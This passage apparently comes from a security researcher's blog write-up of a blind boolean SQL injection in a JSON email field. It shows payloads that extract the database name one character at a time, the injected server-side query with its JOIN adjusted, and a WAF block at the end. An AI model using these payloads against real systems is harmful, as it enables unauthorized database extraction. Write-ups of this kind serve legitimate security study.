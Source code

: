 {% highlight json %}
...
 "email":"a@b.c') AND ('a'=(SELECT(right((SELECT current_database()),1)))) AND ('a'='a"}
}
{% endhighlight %}

<p>
However, remembering how the backend SQL query includes a JOIN clause (from Observation #2), I also added some extra
stuff in the query to make sure the SQL Join was executed correctly in the background. The body
of the POST request looked like this:
</p>

{% highlight json %}
...
 "email":"a@b.c' OR t2.id = t1.id AND t2.q_id IN (1, 2, 3, 4) AND ('a'=(SELECT(right((SELECT current_database()),1)))) AND ('a'='a"}
}
{% endhighlight %}

<p>
The subsequent SQL query on the server looked like this:
</p>

{% highlight sql linenos %}
SELECT t1.*
FROM table1 AS t1 LEFT JOIN table2 AS t2
	ON t2.id = t1.id
	AND t2.q_id IN (1, 2, 3, 4)
	AND t2.input = LOWER('a@b.c') OR t2.id = t1.id AND t2.q_id IN (1, 2, 3, 4) AND ('a'=(SELECT(right((SELECT current_database()),1)))) AND ('a'='a')
WHERE 
	t1.deleted_at IS NULL
	AND t1.name = $1
	AND (
		LOWER(t1.email) = LOWER('a@b.c') OR t2.id = t1.id AND t2.q_id IN (1, 2, 3, 4) AND ('a'=(SELECT(right((SELECT current_database()),1)))) AND ('a'='a')
		OR LOWER(t2.input) = LOWER('a@b.c') OR t2.id = t1.id AND t2.q_id IN (1, 2, 3, 4) AND ('a'=(SELECT(right((SELECT current_database()),1)))) AND ('a'='a')
	);
{% endhighlight %}

<p>
It's complicated, but the idea remains the same: if 'a' is the rightmost character of the Database name, we'll get an "OK"
response from the server.
</p>

<p>
Anyway, after submitting this request to the server, I saw the dreaded page of the (misconfigured) Cloudflare WAF telling me that my
request was blocked. Time for some more fiddling!
</p>
